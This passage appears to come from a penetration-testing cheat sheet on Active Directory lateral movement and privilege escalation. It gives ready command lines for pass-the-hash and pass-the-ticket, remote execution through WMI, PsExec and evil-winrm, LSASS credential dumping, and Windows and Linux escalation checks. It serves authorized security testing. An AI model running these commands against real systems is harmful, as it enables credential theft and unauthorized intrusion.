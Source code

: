 5. Often we can pull off more advanced Kerberos delegation attacks such as Resource- Based Constrained Delegation (RBCD), relaying to AD CS using PetiPotam, the Shadow Credentials attack, and others that are outside the scope of this post. **Recommended read:** [8 Powerful Kerberos attacks (that analysts hate).](https://www.hackthebox.com/blog/8-powerful-kerberos-attacks)
6. Sometimes we are getting nowhere and must resort to digging around shares for juicy data, such as a user that keeps all their passwords in a .txt file or spreadsheet; a web.config file with an MSSQL service account password; a VMDK backup of a host that we can pull the local administrator password hash from and re-use across other systems, and more. PowerView or CrackMapExec can be used for this purpose, but one of my favorite tools for digging in shares is [Snaffler](https://github.com/SnaffCon/Snaffler). Another excellent tool for digging into shares and performing a permissions audit on shares is [PowerHuntShares](https://github.com/NetSPI/PowerHuntShares). Similar to how we mentioned PingCastle earlier, we can use this tool to provide extra, more granular data for our clients so they can work on their file share permissions which can be very difficult to maintain correctly, especially in large environments.
#### Power Commands
1. **Pass-the-Hash (PtH):** Use a captured NTLM hash to authenticate without the plaintext password.
    - `crackmapexec smb <target_IP_range> -u 'user' -H '<NTLM_hash>'
    - `psexec.py 'user'@'target_IP' -hashes '<LM_hash>:<NTLM_hash>'`
2. **Pass-the-Ticket (PtT):** Use a stolen Kerberos TGS ticket to impersonate a user.
    - Inject a ticket into memory with `Rubeus.exe ptt /ticket:<ticket.kirbi>` or on Linux, `export KRB5CCNAME=<ticket.ccache>`.
3. **Remote Service Execution:
    - **WMI:** `wmic /node:"target" /user:"user" /password:"pass" process call create "cmd.exe /c <command>"
    - **PsExec:** `psexec.exe \\target -u user -p pass cmd.exe
    - **WinRM:** `evil-winrm -i target -u user -p pass
4. **SSH:** If SSH is enabled on Linux hosts, use captured credentials to connect.
## Privilege Escalation
### Windows Privilege Escalation
1. **Enumeration is Key:** Run scripts to find misconfigurations.
    - **WinPEAS:** `winpeasany.exe` (All checks) or `winpeas.exe quiet cmd fast` (Quicker)
    - **PowerSploit:** `PowerUp.ps1` - Find misconfigured services, ACL issues, etc.
    - **Seatbelt:** `Seatbelt.exe -group=all` - Broad system enumeration.
2. **Common Vectors:**
    - **Service Misconfigurations:** Unquoted service paths, insecure service permissions, writable service binaries.
    - **AlwaysInstallElevated:** Check if these registry keys are enabled (1). If so, `msiexec /quiet /qn /i malicious.msi`
    - **Potato Attacks:** `JuicyPotato`, `PrintSpoofer`, `RoguePotato` to leverage SeImpersonate privileges.
    - **Kernel Exploits:** Use `windows-exploit-suggester.py` or `Watson` to find missing patches. **WARNING:** Can be unstable (BSOD). Get approval.
    - **Credentials:** Search for passwords in files, registry, memory. `procdump.exe` on LSASS and parse with `pypykatz`.
### Linux Privilege Escalation
1. **Common Vectors:
    - **SUID/GUID Binaries:** `find / -perm -u=s -type f 2>/dev/null`. Can any be exploited? (See GTFOBins).
    - **Sudo Rights:** `sudo -l`. Can you run anything as root? (e.g., `sudo vi /root/file` -> `:!bash`).
    - **Capabilities:** `getcap -r / 2>/dev/null`. (e.g., `cap_setuid+ep` on a binary).
    - **Cron Jobs:** Are any writable? Can you write over the script they execute?
    - **Kernel Exploits:** `uname -a` to get kernel version. Search for exploits. **WARNING:** Unstable. Get approval.
    - **Writable Paths:** Is `$PATH` modifiable? Can you replace a binary like `ls` with a malicious one?
2. **Enumeration Scripts:**
    - **LinPEAS:** The gold standard. `./linpeas.sh`
    - **LinuxSmartEnumeration:** `./lse.sh -l 1`
    - **LinEnum:** `./linenum.sh